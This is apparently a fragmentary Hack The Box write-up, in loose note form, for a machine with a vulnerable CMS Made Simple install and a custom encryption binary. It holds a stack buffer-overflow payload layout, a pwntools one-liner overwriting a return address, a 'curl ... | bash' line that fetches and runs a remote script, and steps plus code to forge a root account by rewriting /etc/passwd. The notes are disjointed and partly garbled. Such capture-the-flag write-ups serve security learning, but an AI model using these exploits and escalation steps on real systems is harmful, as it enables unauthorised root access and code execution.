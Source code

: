 ```
offset of 44
eip 35624134

payload = PIN + NOP*(OFFSET - len(SHELL_CODE)) + SHELL_CODE + EIP
dumping payload to file

./file_enc < payload
```

executing code on stack is disabled. try another method.

Once you have the script, host it in a web server, e.g. python3 -m http.server 80, and then run the following command in tester's shell:

curl -s http://10.10.x.x/exploit.sh | bash

Copy /etc/passwd to /tmp/passwd
In /tmp/passwd add new user with root priv (eg: rot) use openssl -1 to create password . Encrypt /tmp/passwd using xor 0x9b.
Run the file_encrypt
Input : /tmp/passwd
Encrypted file : /etc/passwd
https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/

```python
import ctypes

memory = 0x6b8b4567
def random(memory):
    xor = memory
    for i in range(10):
        xor = xor * 0x59 + 0x14
    return xor ^ memory

invite = ctypes.c_int(random(memory)).value

print(invite)
```

code to overflow the name to encryption function

```python
python3 -c 'import pwn;print(b"A"*44 + pwn.p64(0x5655585b))'
```

program for encrypt the passwd

```python
import os

password=b"./passwd"

plaintext  = open(password, 'rb').read()
ciphertext = open(password, 'wb')

for b in plaintext:
    ciphertext.write(bytes([b ^ 0x9b]))
```


[author-profile]: https://app.hackthebox.com/users/172213
[blog-posts]: images/screenshots/blog-posts.png
[cmsms-version]: images/screenshots/cmsms-version.png
[cmsms-exploit]: https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/
[cve-2019-9053]: https://www.exploit-db.com/exploits/46635
[cve-2019-9060]: https://nvd.nist.gov/vuln/detail/CVE-2019-9060
[user-profile]: images/screenshots/profile.png